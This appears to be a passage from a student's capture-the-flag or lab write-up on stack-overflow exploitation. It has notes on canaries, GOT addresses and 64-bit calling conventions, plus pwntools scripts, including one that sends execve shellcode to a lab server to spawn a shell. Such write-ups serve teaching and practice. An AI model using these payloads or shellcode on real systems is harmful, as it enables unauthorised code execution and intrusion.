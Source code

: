 The reason why there are more than one address will be discussed in [next chapter](#Problem).

#### Invoke system

The following is simple, just call `system("/bin/sh")` to get shell.

```python
p.send(b'A' * buf_size + p32(canary) + b'A' * ra_offset + p32(0x8048520) + p32(stop_addr) + p32(binsh_addr))
p.interactive()
```

![](assets/image-20210416202452638.png)

# Problem

1.  `puts`的实际地址是`*0x601018`而不是`0x601018`，因为他只是个plt的地址，还需要取址才是got的表项，一开始没注意
2.  一开始没注意，后来重新在amd64下编译了一下`puts()`发现是用寄存器传参的
3.  gadget没必要手动找，pwntool的工具可方便了
4.  64位下进入函数时rsp要字对齐
5.  canary的时候又忘记小端规则了
6.  在用`system("/bin/ls")`找system的时候之所以会有好几个match的地址可能是因为会有一些类似于`push ebp`之类的对结果无关紧要的指令

# Afterwards

1. 可以通过leak出libc的base然后去网上查出libc的版本来获得system的地址，就不需要爆破了
2. 

# Appendix

## exploit/01.py

```python
from pwn import *

context.log_level = 'INFO'

conn = remote("47.99.80.189", 10011)
conn.recvuntil("ID:\n")
conn.sendline("3180103012")

# conn = process('crackme/01')

conn.recvuntil("[*] Please input your ID:\n")
conn.sendline("3180103012")

conn.recvuntil("Your ID is stored at:0x")
id_addr = int(conn.recv(16), 16)

shellcode_addr = p64(id_addr - 0x118)  # also addr of `str`

conn.recvuntil("[*] Now, give me something to overflow me!\n")

shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

conn.sendline(shellcode + b"\0" * (256 - len(shellcode) + 8) + shellcode_addr)

conn.interactive()
```
